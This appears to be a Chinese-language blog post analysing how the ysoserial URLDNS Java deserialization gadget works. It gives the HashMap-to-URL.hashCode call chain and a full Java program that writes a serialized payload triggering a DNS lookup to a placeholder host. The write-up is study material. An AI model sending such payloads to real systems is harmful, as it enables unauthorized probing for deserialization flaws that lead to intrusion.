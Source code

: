 ```yaml
---
title: "ysoserial URLDNS, CommonsCollectionsX 分析"
date: 2020-01-20 17:45:51
tags: [web, java]
---
```


之前都是 ysoserial 一把梭, 还是得学习 + 复现一下内部实现机制的.



## URLDNS

最简单的一个, 这个成因就是 `java.util.HashMap` 重写了 `readObject`, 在反序列化时会调用 `hash` 函数计算 key 的 hashCode.

![](https://i.loli.net/2020/01/20/onW3ErpxJT2mK1z.png#center)  
![](https://i.loli.net/2020/01/20/xJrPjCgF5eh1Kfs.png#center)


而 `java.net.URL` 的 hashCode 在计算时会调用 `getHostAddress` 来解析域名, 从而发出 DNS 请求.

![](https://i.loli.net/2020/01/20/tzER6LIsc125OU7.png#center)  
![](https://i.loli.net/2020/01/20/53j1fLybKRUHsYV.png#center)  

可以理解为, 在序列化 HashMap 类的对象时, 为了减小序列化后的大小, 并没有将整个哈希表保存进去, 而是仅仅保存了所有内部存储的 key 和 value. 所以在反序列化时, 需要重新计算所有 key 的 hash, 然后与 value 一起放入哈希表中. 而恰好, URL 这个对象计算 hash 的过程中用了 getHostAddress 查询了 URL 的主机地址, 自然需要发出 DNS 请求.

整条调用链如下:

```
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

URLDNS.java
```java
package demo.rmb122;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        URL url = new URL("http://xxxx.xxx.xxx");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, 0xdeadbeef); // 设一个值, 这样 put 的时候就不会去查询 DNS
        hashMap.put(url, "rmb122");
        f.set(url, -1); // hashCode 这个属性不是 transient 的, 所以放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
    }
}
```
